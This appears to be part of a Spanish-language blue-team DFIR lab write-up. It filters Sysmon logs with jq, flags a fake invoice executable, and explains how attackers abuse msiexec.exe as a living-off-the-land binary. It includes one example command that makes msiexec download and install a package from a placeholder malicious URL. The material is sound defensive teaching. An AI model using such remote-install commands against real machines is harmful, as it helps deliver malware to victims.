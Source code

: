 
```bash 
┌──(kali㉿kali)-[~/blue-labs/DFIR]
└─$ cat sysmon.jsonl| jq '.Event | select(.System.EventID == 1)| .EventData.OriginalFileName' 
"pingsender.exe"
"Fattura 2 2024.exe"
"msiexec.exe"
"msiexec.exe"
"msiexec.exe"
"msiexec.exe"
```

Y ya vemos cosas interesantes, ¿Una factura en formato .exe?, y el posterior uso de msiexec. 

- **`msiexec.exe`** es el ejecutable **legítimo** del sistema operativo Windows que se encarga de **instalar, modificar y desinstalar** programas que usan archivos **.msi** (Microsoft Installer packages).
- Vive normalmente en:
  ```
  C:\Windows\System32\msiexec.exe
  ```

- Es parte del servicio de Windows Installer, algo completamente normal... **PERO** ⚡

### ¿Por qué es interesante que aparezca en tu análisis?

- Los **atacantes** muchas veces abusan de `msiexec.exe` porque:
  - Es un **binario de confianza** (signed Microsoft binary → menos alertas de antivirus).
  - Permite **descargar e instalar** programas directamente **desde internet** usando comandos como:
    ```
    msiexec /i http://malicious-site.com/malware.msi
    ```
  - Se puede usar para ejecutar payloads remotamente → **Living Off The Land Binary** (LOLBIN).

Así que podríamos empezar a sospechar, analizemos el Fattura.exe

```bash 
┌──(kali㉿kali)-[~/blue-labs/DFIR]
└─$ cat sysmon.jsonl| jq '.Event | select(.System.EventID == 1 and .EventData.OriginalFileName == "Fattura 2 2024.exe")'  
{
  "System": {
    "Provider_attributes": {
      "Name": "Microsoft-Windows-Sysmon",
      "Guid": "5770385F-C22A-43E0-BF4C-06F5698FFBD9"
    },
    "EventID": 1,
    "Version": 5,
    "Level": 4,
    "Task": 1,
    "Opcode": 0,
    "Keywords": "0x8000000000000000",
    "TimeCreated_attributes": {
      "SystemTime": "2024-02-14T03:41:56.559618Z"
    },
    "EventRecordID": 118793,
    "Correlation": null,
    "Execution_attributes": {
      "ProcessID": 3028,
      "ThreadID": 4412
    },
    "Channel": "Microsoft-Windows-Sysmon/Operational",
    "Computer": "DESKTOP-887GK2L",
    "Security_attributes": {
      "UserID": "S-1-5-18"
    }
  },
```